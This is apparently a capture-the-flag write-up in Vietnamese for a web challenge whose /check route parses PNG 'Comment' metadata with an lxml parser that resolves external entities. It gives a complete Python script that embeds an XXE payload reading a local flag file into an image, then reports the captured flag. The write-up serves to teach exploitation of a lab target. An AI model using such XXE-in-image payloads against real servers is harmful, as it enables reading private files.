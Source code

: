 ![image](../img/5.1.png)

start chall lên chỉ thấy có feature upload file với extension được phép là `png, jpg`

![image](../img/5.2.png)

route `/check`
![image](../img/5.3.png)
mình focus vào dòng 59-62

dòng 59 chuyển nội dung trả về thành JSON, sau đó lấy trường `Comment`
dòng 60 tạo một đối tượng `XML parser` với cấu hình cụ thể, `no_network=False` và `resolve_entities=True` có thể dẫn tới XXE Injection
dòng 61 phân tích XML từ trường `Comment` và chuyển nó thành XML tree

Hướng khai thác: mình tạo ra 1 ảnh và thêm vào ảnh đó 1 trường `Comment` chứa script XXE, để khi sử dụng `/check` nó sẽ parse ra XML mà exec `Comment` đó

Script python tạo png

```
from PIL import Image, PngImagePlugin

# Tạo một ảnh mới với kích thước 200x200, nền màu trắng
image = Image.new("RGB", (200, 200), "white")

# Đường dẫn để lưu ảnh
output_path = "image_with_xxe.png"

# Payload XXE mà bạn muốn thêm vào trường Comment
xxe_payload = """<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///app/flag.txt" >]>
<foo>&xxe;</foo>"""

# Tạo một đối tượng info chứa metadata
metadata = PngImagePlugin.PngInfo()

# Thêm trường Comment với payload XXE
metadata.add_text("Comment", xxe_payload)

# Lưu ảnh với metadata mới vào file PNG khác
image.save(output_path, "PNG", pnginfo=metadata)

print(f"XXE payload has been added to the image and saved as {output_path}")

```

upload file này lên trên `file.io` nhé ae

![image](../img/5.4.png)

nhớ bypass check `Host`
và booomm

![image](../img/5.5.png)

Flag: `PCTF{Y0u_D00m3D_U5_Man_So_SAD}`




